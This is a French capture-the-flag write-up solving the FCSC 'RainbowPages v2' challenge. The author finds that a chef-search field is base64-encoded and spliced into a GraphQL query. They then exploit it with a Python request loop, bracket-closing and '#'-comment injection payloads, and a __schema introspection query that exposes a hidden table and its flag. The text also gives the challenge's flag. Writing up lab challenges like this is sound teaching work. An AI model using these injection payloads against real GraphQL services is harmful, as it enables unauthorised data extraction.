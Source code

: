 # RainbowPages v2

Points : 250 (dynamique)

```
La première version de notre plateforme de recherche de
cuisiniers présentait quelques problèmes de sécurité.
Heureusement, notre développeur ne compte pas ses heures
et a corrigé l'application en nous affirmant que plus rien n'était
désormais exploitable. Il en a également profiter
pour améliorer la recherche des chefs.

Pouvez-vous encore trouver un problème de sécurité ?

URL : http://challenges2.france-cybersecurity-challenge.fr:5007/
```
*Ce challenge fait suite au challenge RainbowPages*

## Analyse

En allant sur le lien donné par la description du challenge, je tombe sur un site de recherche de chefs cuisiniers.

Je peux effectuer des recherches à l'aide du champ "Search one chef". En analysant le code source de la page, je tombe sur une fonction javascript qui envoie ma recherche par la méthode GET avec l'argument search à la page : ```index.php```.

Voici le code intéressant:

```js
function makeSearch(searchInput) {
			if(searchInput.length == 0) {
				alert("You must provide at least one character!");
				return false;
			}

			var searchValue = btoa(searchInput);
			var bodyForm = new FormData();
			bodyForm.append("search", searchValue);

			fetch("index.php?search="+searchValue, {
				method: "GET"
			}).then(function(response) {
				response.json().then(function(data) {
					data = eval(data);
					data = data['data']['allCooks']['nodes'];
					$("#results thead").show()
					var table = $("#results tbody");
					table.html("")
					$("#empty").hide();
					data.forEach(function(item, index, array){
						table.append("<tr class='table-dark'><td>"+item['firstname']+" "+ item['lastname']+"</td><td>"+item['speciality']+"</td><td>"+(item['price']/100)+"</td></tr>");
					});
					$("#count").html(data.length)
					$("#count").show()
				});
			});
		}
```

Je remarque aussi la fonction ```btoa``` qui permet d'encoder une chaîne de caractères en base64.

L'outil "Réseau" (Crtl+Maj+I) de FireFox permet de voir les requêtes envoyées par le navigateur, j'en récupère donc une.

## Recherche du point d'exploitation

En se basant sur le premier challenge, je sais que le type de données envoyé est du GraphQL.

J'ai ensuite fait un script python qui me permet d'encoder mes données puis de les envoyer au site pour récupérer le résultat.

```python
import requests
import base64

URL = "http://challenges2.france-cybersecurity-challenge.fr:5007/index.php?search={0}"

while True:

    injection = input("Command to inject : ")

    binjection = base64.b64encode(injection.encode()).decode()

    _url = URL.format(binjection)

    res = requests.get(_url)

    print("\n=> Result : " + res.text + "\n")
```

Mon but premier était de faire une requête valide. Alors, j'ai cherché à fermer la première requête en ajoutant un des caractères suivant : '}', ']', ')'.

Si le site me renvoyait une erreur liée à un de ces caractères, je savais donc qu'il n'était pas bon. Sinon cela voulait dire que je fermais une condition, filtre ou autre.

Voila un court exemple :

```GraphQL
Command to inject : 2%"}

=> Result : {"errors":[{"message":"Syntax Error: Cannot parse the unexpected character \"%\".","locations":[{"line":1,"column":55}]}]}

Command to inject : 2%"}]

=> Result : {"errors":[{"message":"Syntax Error: Expected Name, found ]","locations":[{"line":1,"column":55}]}]}

Command to inject : 2%"}}

=> Result : {"errors":[{"message":"Syntax Error: Cannot parse the unexpected character \"%\".","locations":[{"line":1,"column":56}]}]}

[snip]

Command to inject : 2%"}}]})}]

=> Result : {"errors":[{"message":"Syntax Error: Unexpected ]","locations":[{"line":1,"column":60}]}]}

Command to inject : 2%"}}]})})

=> Result : {"errors":[{"message":"Syntax Error: Unexpected )","locations":[{"line":1,"column":60}]}]}

Command to inject : 2%"}}]})}}

=> Result : {"errors":[{"message":"Syntax Error: Unexpected }","locations":[{"line":1,"column":60}]}]}
```

Tous les caractères étant "Unexpected" cela veut dire que j'ai trouvé le moyen de fermer la requête.

## Exploitation

### __schema

La table ```__schema``` est un équivalent d'après moi de la table ```informations_schema``` sous SQL. Elle contient les informations sur les noms des tables et autres.

Avec l'aide de la documentation, je trouve le moyen de pouvoir dump le nom de toutes les tables disponibles.

```GraphQL
__schema {
  types {
    name
  }
}
```

Je peux donc ajouter cette requête à celle trouvée dans la partie de reconnaissance.

Bien évidemment, il me faut la modifier. J'ajoute ```nodes``` qui permet de renvoyer une valeur pour ne pas que la requête ne génère d'erreur.

Voici la requête actuelle :

```GraphQL
2%"}}]}) { nodes { firstname }}, __schema { types { name }}}
```

J'essaye de la lancer mais j'ai un message d'erreur. Sans doute la deuxième partie de la requête qui pose problème.

### Bypass & Extraction des champs

Après quelques heures d'intenses recherches, dans un élan de désespoir, j'ajoute le caractère '#' qui pourrait me commenter le reste de la requête.

CA FONTIONNE !

```GraphQL
Command to inject : 2%"}}]}) { nodes { firstname }}, __schema { types { name }}}#  

=> Result : {"data":{"allCooks":{"nodes":[]},"__schema":{"types":[{"name":"Query"},{"name":"Node"},{"name":"ID"},{"name":"Int"},{"name":"Cursor"},{"name":"CooksOrderBy"},{"name":"CookCondition"},{"name":"String"},{"name":"CookFilter"},{"name":"IntFilter"},{"name":"Boolean"},{"name":"StringFilter"},{"name":"CooksConnection"},{"name":"Cook"},{"name":"CooksEdge"},{"name":"PageInfo"},{"name":"FlagNotTheSameTableNamesOrderBy"},{"name":"FlagNotTheSameTableNameCondition"},{"name":"FlagNotTheSameTableNameFilter"},{"name":"FlagNotTheSameTableNamesConnection"},{"name":"FlagNotTheSameTableName"},{"name":"FlagNotTheSameTableNamesEdge"},{"name":"__Schema"},{"name":"__Type"},{"name":"__TypeKind"},{"name":"__Field"},{"name":"__InputValue"},{"name":"__EnumValue"},{"name":"__Directive"},{"name":"__DirectiveLocation"}]}}}
```

Me voilà en possession de tous les noms de tables. J'essaye de voir ce qui se cache dans la table ```FlagNotTheSameTableName``` qui me semble fort intéressant.


J'ajoute ```all``` au début et un ```s``` à la fin du nom de la table (Pattern des tables requêtées).
```GraphQL
Command to inject : 2%"}}]}) { nodes { firstname }}, allFlagNotTheSameTableNames {nodes { FlagNotTheSameTableName }}}#   

=> Result : {"errors":[{"message":"Cannot query field \"FlagNotTheSameTableName\" on type \"FlagNotTheSameTableName\". Did you mean \"flagNotTheSameFieldName\"?","locations":[{"line":1,"column":121}]}]}
```

Parfait ! J'ai pu récupérer le nom du champ. J'essaye la requête en remplaçant ce qui pose problème.

```GraphQL
Command to inject : 2%"}}]}) { nodes { firstname }}, allFlagNotTheSameTableNames {nodes { flagNotTheSameFieldName }}}#  

=> Result : {"data":{"allCooks":{"nodes":[]},"allFlagNotTheSameTableNames":{"nodes":[{"flagNotTheSameFieldName":"FCSC{70c48061ea21935f748b11188518b3322fcd8285b47059fa99df37f27430b071}"}]}}}
```

flag: ```FCSC{70c48061ea21935f748b11188518b3322fcd8285b47059fa99df37f27430b071}```
